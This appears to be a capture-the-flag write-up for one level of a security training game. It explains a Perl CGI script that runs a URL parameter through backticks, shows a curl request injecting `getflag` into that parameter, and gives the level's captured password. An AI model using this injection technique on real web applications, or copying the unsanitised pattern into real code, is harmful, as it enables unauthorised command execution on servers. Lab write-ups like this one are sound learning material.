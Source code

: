 # LEVEL 04

## 💡 Explanation

In this level we have to:
1. We check the permissions of the file level04: it belongs to the user flag04 and gives permissions to execute as user (as lvl 03).
2. We can see that the script calls to the function `x` and pass as an argument the parameter `x`.
3. Then the script takes the argument as the variable `y`.
4. The y variable is inserted in the string `echo $y 2>&1`
5. The string is excecuted by bash (backticks in perl do this)
4. We can use the variable to pass the command `getflag` so it will execute when doing the echo.


`level04.pl`
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

## 👾 Commands

```
cat level04.pl
./level04.pl
curl http://localhost:4747
curl http://localhost:4747/?x=lol
curl http://localhost:4747/?x=\`getflag\`
```

## 🔍 Resources

- [Perl language - Functions & Arguments](https://www.tutorialspoint.com/perl/perl_subroutines.htm)

## 🔥 Password
`ne2searoevaevoem4ov4ar8ap`
